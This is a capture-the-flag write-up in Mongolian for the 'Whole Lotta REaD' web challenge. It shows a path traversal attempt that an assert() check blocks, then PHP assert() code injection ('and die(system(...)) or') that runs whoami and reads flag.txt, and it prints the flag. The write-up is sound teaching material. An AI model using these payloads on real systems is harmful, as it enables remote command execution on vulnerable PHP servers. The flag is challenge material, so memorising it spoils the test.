 
# Whole Lotta REaD

## **Хүндрэл:** Medium


## **Бодолт**  
Бодлогын нэр болон файл дуудаж буй байдлаас нэг зүйл анзаарагдана.
Бодлогын нэр : whole lotta REaD
Файл дуудаж буй байдал: http://domainame:5002/?file=file2.txt
LFI байх боломжтой гэдэг нь мэдэгдэж байна

### **1. i_am_music container**  
Эхний ээлжинд ямар нэг байдлаар өмнөх directory-д байрлах файлуудыг унших гэж оролдоё.
```
http://domainame:5002/?file=file2.txt/../../../flag.txt
```
Хариуд нь 
```php
**Warning**: assert(): assert("strpos('$file', '..') === false"): "strpos('file2.txt/../../../flag.txt', '..') === false" failed in **/var/www/html/index.php** on line **78**  
Hell no!
```
дээрх алдааны мессеж өгсөн бөгөөд шууд "../" ашиглаж path traversal хийж болохгүйгээр хамгаалсан байна.
### **2. Assert()**  
Хамгаалахдаа assert() функц ашиглан хамгаалсан байна . Гэхдээ  PHP 7.2-c өмнөх хувилбаруудад энэ функц эмзэг байдалтай байсан. assert функц нь дамжуулсан утгыг eval хийдэг буюу зүгээр нэг файл уншихыг хамгаалах биш RCE буюу  комманд ажиллуулах бүр ноцтой эмзэг байдлыг үүсгэж байна.
``

### **3. LFI2RCE**  
Алдааны мессежээр хайж үзвэл доорхтой төстэй rce payload олдоно.
```php
'and die(system("whoami")) or'
```
Үүнийг ажиллуулж үзвэл 
```
www-data www-data
```
буюу дээрх payload ажиллаж байна. Иймээс хүссэн коммандаа ажиллуулах боломжтой.
<br>Эцсийн payload:
```php
'and die(system("cat flag.txt")) or'
```
## **Туг:**  
    nest{FF0000_FF0000_FF0000_FF0000_FF0000}